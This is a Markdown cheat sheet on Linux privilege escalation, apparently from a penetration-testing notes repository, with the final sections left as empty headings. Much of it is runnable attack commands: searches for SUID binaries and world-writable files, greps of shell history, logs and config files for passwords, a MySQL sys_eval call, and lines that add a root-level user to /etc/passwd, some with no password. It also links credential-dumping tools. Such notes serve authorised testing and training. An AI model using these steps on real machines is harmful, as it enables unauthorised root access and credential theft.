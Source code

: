 # Linux Privilege Escalation

## Kernel Exploits

Find the kernel version and what distribution for kernel exploit.

You can use these following commands and check in `Exploit DB` (wget, modify, compile and execute).

```sh
uname -a

cat /etc/issue

cat /etc/*-release

cat /etc/lsb-release

cat /etc/redhat-release

lsb-release
```

Some famous Kernel Exploits to do privilege escalation on Linux are `Sendpage` and `Dirtvcow`.

## SUID/GUID

`SUID/GUID` are special permissions to grant users to execute some commands or to carry out certain configurations/operations at administrative level. They can lead to a vertical privilege escalation.

To find files with these permissions you can use these commands:

```sh
find / -user root -perm -4000 2> /dev/null

find / -perm -2000 2> /dev/null
```

If you find a script file with SUID permission `owned` by the `root` and can be `executed` the [gtfobins](gtfobins.github.io) website can be used to find some script to do privilege escalation

## Credentials Stored on System

There are several locations that we can find passwords like:

* log files
* configurations
* memory locations
* etc

Some useful commands:

```sh
history

history | grep -B4 -A3 -i 'passwd\|ssh\|host\|nc\|ping' 2> /dev/null

grep -B3 -A3 -i 'pass\|password\|login\|username\|email\|mail\|host\|ip' /var/log/*.log 2> /dev/null

find / -maxdepth 4 -name "*.conf" -type f -exec grep -Hn 'pass\|password\|login\|username\|email\|mail\|host\|ip' {} \; 2> /dev/null
```

There are simple but powerful `Shell/Python` script used to dump login credentials (Usernames and Passwords) from the current Linux desktop user.

[Mimipenguin](https://github.com/huntergregal/mimipenguin)

Other tools:

[pupy](https://github.com/n1nj4sec/pupy)
[LaZagne](https://github.com/AlessandroZ/LaZagne)
[gimmecredz](https://github.com/0xmitsurugi/gimmecredz)

## Exploiting services running as root

If a specific service is running as a `root` and you can `execute commands` for that program, then you can execute commands as a root.

Search for:

* Webserver
* Database

Example (`MySQL`):

If `MySQL` is running as a `root` and if you can `log in` to the database by your `username` and `password`, you may issue the following command on `MySQL`:

```sh
select sys_eval('whoami')
```

## Escalation Using SUDO

`SUDO` allows users to execute a specific command with an elevated privilege without having to remember the password to sign into the admin account.

    NOPASSWD

### sudo -l

Will show what commands we can execute with sudo

* `(ALL:ALL) ALL`: which means we can execute all commands with sudo
* `(root) NOPASSWD: /usr/bin/vim`: means that we can execute vim with sudo and we `don't need password`

## Writable file owned by root

We can write and use a file to escalate privileges.

In order to find any writable files owned by root. Use with this command (remember to change the `homedir`):

```sh
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2> /dev/null | grep -v root

find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2> /dev/null | grep root

find / \( -wholename '/home/homedir/' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -ld '{}' ';' 2> /dev/null

find /etc -perm -2 -type f 2> /dev/null

find / -writable -type d 2> /dev/null
```

## Writeable /etc/passwd

### Method 1

If you have `write` permission to `/etc/passwd` and `/etc/shadow`, then generate a password with any of these commands:

```sh
# salt as secret1 and password as secret2
openssl passwd -1 -salt secret1 secret2

mkpasswd -m SHA-512 secret

python2 -c 'import crypt;print crypt.crypt("secret", "$6$salt")'
```

Then you can change the `root` hash to `your` new generated hash

Or add the user `youruser` and add the generated password (`$1$secret1$48cmxcj1DAdTrAd3cXTfF/`):

`youruser:$1$secret1$48cmxcj1DAdTrAd3cXTfF/:0:0:Youruser:/root/bin/bash`

### Method 2

Another method is simple, here we do not neet a password to switch user, sometimes this method won't work (when this happens we can use the above method).

```sh
echo 'youruser::0:0::/root:/bin/bash' >> etc/passwd
```

## NFS root squashing


## Exploiting Crontab

## Exploiting PATH Variable

## Exploiting docker

## Exploiting Lxd

